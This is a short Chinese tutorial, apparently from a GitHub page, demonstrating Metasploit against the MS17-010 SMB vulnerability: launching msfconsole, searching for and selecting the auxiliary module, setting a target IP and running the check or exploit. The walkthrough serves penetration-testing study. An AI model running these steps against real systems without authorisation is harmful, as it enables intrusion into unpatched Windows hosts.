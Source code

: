 ## <font color = #1E90FF>ms-17010漏洞</font>
### <font color = #FF0000>演示:((假设目标开启了445端口))</font>

#### <font color = #D02090>1.打开终端启动MSF</font>
```
msfconsole
```

#### <font color = #D02090>2.首先搜索MS17-010</font>
- **2.1指定第一个模块(辅助模块)auxiliary模块下**
```
search ms-17-010        #搜索MS17-010
use 1   #指定第一个模块
```

</figure>
     <figure class="thumbnails">
        <img src="picture/qt/MS17-010演示.png">
</figure>

- **2.2查看模块信息并查看必填项**
```
info
```

- **2.3配置对方的IP地址**
```
set rhosts 192.168.2.207
```

- **2.4运行(如果检测出对面有这个漏洞，前面会出现绿色的加号)**
```
run 
或
exploit
```
